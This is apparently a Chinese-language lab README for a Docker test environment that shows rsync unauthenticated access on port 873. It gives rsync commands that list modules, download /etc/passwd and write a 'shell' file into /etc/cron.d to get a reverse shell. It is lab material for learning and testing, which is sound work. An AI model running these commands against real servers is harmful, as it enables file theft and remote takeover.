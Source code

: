 # rsync 未授权访问漏洞

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 漏洞测试

编译及运行rsync服务器：

```
docker compose build
docker compose up -d
```

环境启动后，我们用rsync命令访问之：

```
rsync rsync://your-ip:873/
```

可以查看模块名列表：

![](1.png)

如上图，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

![](2.png)

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

我们写入了一个cron任务，成功反弹shell：

![](3.png)
